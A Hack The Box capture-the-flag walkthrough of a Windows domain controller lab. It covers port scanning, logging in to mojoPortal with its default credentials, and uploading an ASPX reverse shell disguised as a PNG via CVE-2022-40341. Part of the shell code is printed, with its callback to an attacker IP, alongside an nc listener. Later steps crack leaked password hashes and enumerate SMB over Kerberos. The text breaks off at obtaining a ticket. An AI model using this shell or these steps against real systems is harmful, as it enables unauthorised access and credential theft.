This box is rated insane difficulty on HTB. It involves us using default credentials to gain Admin access to a mojoPortal website where we can abuse a File Manager vulnerability to get code execution on the machine. From there we find that get-bADpasswords is being used on the domain, and that weak hashes are stored in a CSV file. Once cracked, we gain access to an SMB share which enables a DLL hijacking attack to grab a reverse shell as another user. Their account has a deleted Admin certificate allowing  us to sign a malicious script and get code execution as another privileged user. Finally, we abuse replication rights to read the Administrator's NTLM hash and takeover the domain.

## Host Scanning
As always, I begin with an Nmap scan against the target IP address; Repeating the same for UDP yields the typical AD ports.

```
└─$ sudo nmap -p- -sCV --min-rate 2500 10.129.230.109 -oN fullscan-tcp
Starting Nmap 7.98 ( https://nmap.org ) at 2026-11-09 22:07 +0000
Nmap scan report for 10.129.230.109
Host is up (0.055s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 29 disallowed entries (15 shown)
| /CaptchaImage.ashx* /Admin/ /App_Browsers/ /App_Code/ 
| /App_Data/ /App_Themes/ /bin/ /Blog/ViewCategory.aspx$ 
| /Blog/ViewArchive.aspx$ /Data/SiteImages/emoticons /MyPage.aspx 
|_/MyPage.aspx$ /MyPage.aspx* /NeatHtml/ /NeatUpload/
|_http-title: Home - mojoPortal
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-09 22:08:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-11-09T21:57:37
|_Not valid after:  2027-11-09T21:57:37
|_ssl-date: 2026-11-09T22:10:24+00:00; -1s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-09T22:10:24+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-11-09T21:57:37
|_Not valid after:  2027-11-09T21:57:37
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-11-09T21:57:37
|_Not valid after:  2027-11-09T21:57:37
|_ssl-date: 2026-11-09T22:10:24+00:00; -1s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-11-09T21:57:37
|_Not valid after:  2027-11-09T21:57:37
|_ssl-date: 2026-11-09T22:10:24+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
50835/tcp open  msrpc         Microsoft Windows RPC
58038/tcp open  msrpc         Microsoft Windows RPC
58047/tcp open  msrpc         Microsoft Windows RPC
59590/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
Service Info: Host: HATHOR; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2026-11-09T22:09:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.78 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. There is also a website on port 80 whose banner shows that it's running mojoPortal. LDAP is leaking the Fully Qualified Domain Name of `hathor.windcorp.htb`, which I add to my `/etc/hosts` file.

## Service Enumeration
I'll leave subdirectory and subdomain scans running on port 80 while enumerating the other services for an easy win anywhere. SMB and RPC deny Guest/Null authentication, while LDAP rejects anonymous binds, so we're pretty much left with Kerberos and HTTP for initial access.

```
└─$ nxc smb hathor.windcorp.htb -u 'Guest' -p '' --shares

└─$ rpcclient hathor.windcor.htb -U ''%''

└─$ ldapsearch -x -H ldap://hathor.windcorp.htb -b "dc=windcorp,dc=htb" "(objectClass=*)"
```



We don't start out with credentials since this is a blackbox engagement, so AS-REP Roasting is out of the picture until we get a list of usernames. Heading over to the landing page on port 80 shows that the site is under construction but is intended to be for the company's intranet site.



The only real functionality as of yet is a login portal, however the URL reveals that the site is ran on ASP.NET which concurs with the Microsoft IIS banner earlier.

## Web Exploitation

### Default Admin Creds
There are no verbose errors so we can't enumerate account names here, but a quick Google search gives us the default admin credentials for mojoPortal which haven't been changed since this site is still under construction.



After logging in with `admin@admin.com:admin`, we're granted full access to the CMS's utilities. One thing that sticks out to be right away is the file manager feature which allows us to upload content to the site. If this doesn't restrict certain content type, then we can simply upload a reverse shell to get code execution.



I grab an [ASPX reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) and attempt to upload it at the webroot, but it returns an error denying the file type.



Visiting the system information page gives us the mojoPortal version, which I'll look up to find any known vulnerabilities in.



There were a few critical hits showcasing zipslip attacks and RCE through other vulnerable functions, however they all came out three years after the box's release so in the spirit of the challenge I'll try and stick to the intended route.

### File Rename Vulnerability
I do eventually come across a writeup covering [CVE-2022–40341](https://weed-1.gitbook.io/cve/mojoportal/upload-malicious-file-in-mojoportal-v2.7-cve-2022-40341), which is a vulnerability in mojoPortal's File Manager feature that allows RCE. Exploiting it is almost laughable, since we just need to upload a PNG that includes malicious ASPX code and then rename the file's extension to allow code execution.

> The site doesn't actually check the file's MIME type upon renaming it, so we don't even have to embed the code in a real PNG or play with magic bytes.

```
└─$ head -20 shell.png

<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
        protected void Page_Load(object sender, EventArgs e)
    {
            String host = "10.10.15.186"; //CHANGE THIS
            int port = 443; ////CHANGE THIS
                
        CallbackShell(host, port);
```

To upload, we click the three dots in the top right corner under the file manager and choose our PNG file. Once our PNG is uploaded, we right click the file and rename the file through the "Copy file" feature. That part is crucial since it's the only one that lacks the file type check.



From there, all that's left is to setup a listener to catch the reverse shell and navigate to the file under the `/data/sites/1/media/` directory

```
└─$ rlwrap -cAr nc -lvnp 443
```



## Privilege Escalation
Although the account has plenty of token privileges, they are all expected of the account running the website and aren't immediately exploitable.



There are four other users on this box besides the Administrator, but we're denied access to their home directories.



Peeking at the `C:\` drive's root shows a few interesting directories. 
- `get-bADpasswords` is a clone of that [GitHub repository](https://github.com/improsec/Get-bADpasswords)
- `script` is inaccessible
- `share` is inaccessible
- `StorageReports` has an empty folder named `scheduled`



Everyone is allowed to write and execute files in the scheduled folder, so this may come in handy if there's an automated script handling whatever's in it. I'll leave it alone until we have more information on it though.

```
PS> icacls C:\StorageReports\scheduled
```



There is one file that isn't apart of that cloned repo. It's a VBScript file that creates an application event log under the ID of 444. After the code there is a long signature, which I eventually found out, allows it to run under Applocker.

```
PS> type run.vbs
```



> Interestingly, I didn't have trouble getting a shell with my choice of ASPX code since it ran under the context of the IIS process.

We can enumerate Applocker policies with the built in `Get-AppLockerPolicy` cmdlet in order find out what may inhibit us in the future. It's quite lengthy and I haven't had a problem yet so I'll defer that for now.

```
PS> $policy = Get-AppLockerPolicy -Effective

PS> $policy.RuleCollections
```



Taking some time to familiarize myself with the Get-bADpasswords repo, I learn that it's used to compare active user's hashes to known weak or leaked ones in an attempt to tighten security.

### Weak Password Hashes Logged
A big part of this tool is that it logs the results into the `\Accessible\` directory for analysis, which contains information about the weak password. That conveniently also includes the password hash itself.



Looking under the logged CSV files, we find a dozen weak password instances on the domain.



They all belong to BeatriceMill, and using any hash cracking tool (online or CLI) allows us to recover the plaintext for that user. I just used [hashes.com](https://hashes.com/en/decrypt/hash) since it's quick and we know the password is relatively known.



She's not apart of any groups that would allow us to grab a shell and using a tool like RunasCs would probably fail due to Applocker constraints, but we can finally enumerate SMB with her credentials. 



Using NetExec, we find that NTLM authentication has been disabled. Luckily most tools supports Kerberos auth nowadays, so we can use the `-k` flag to do so.

```
└─$ nxc smb hathor.windcorp.htb -u 'BeatriceMill' -p '[REDACTED]' -k --shares
```



We have read and write access to that share directory we saw previously on the C:\ drive's root. To access it I'll generate a krb5 config file, export it, and then obtain a TGT for BeatriceMill so we can use it with smbclient.

```
└─$ nxc smb hathor.windcorp.htb -u 'BeatriceMill' -p '[REDACTED]' -k --generate-krb5-file krb5.conf

└─$ export KRB5_CONFIG=krb5.conf

└─$ kinit BeatriceMill

└─$ klist
```

